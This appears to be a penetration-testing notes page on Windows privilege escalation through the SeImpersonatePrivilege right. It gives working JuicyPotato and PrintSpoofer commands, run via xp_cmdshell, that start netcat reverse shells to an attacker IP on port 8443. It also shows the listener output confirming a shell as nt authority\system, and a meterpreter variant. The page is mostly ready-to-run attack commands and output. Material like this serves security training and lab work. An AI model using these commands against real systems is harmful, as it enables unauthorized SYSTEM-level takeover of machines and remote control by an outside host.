 This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State    

============================= ========================================= ======== 

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

With the `SeImpersonatePrivilege` privilege enabled, it is possible to perform privilege escalation:

```bash
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.35 8443 -e cmd.exe" -t *
```

```bash
sudo nc -lvp 8443
Listening on 0.0.0.0 8443
Connection received on 10.129.224.155 49736
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami 
nt authority\system
```

Or a `meterpreter` shell:

```bash
.\JuicyPotato.exe -l 53375 -p c:\windows\temp\shell.exe -t * -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"
```

`JuicyPotato` doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.

Newer version of Windows, `PrintSpoofer/RougePotato/GodPotato` should work:

```bash
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.15.35 8443 -e cmd"
```

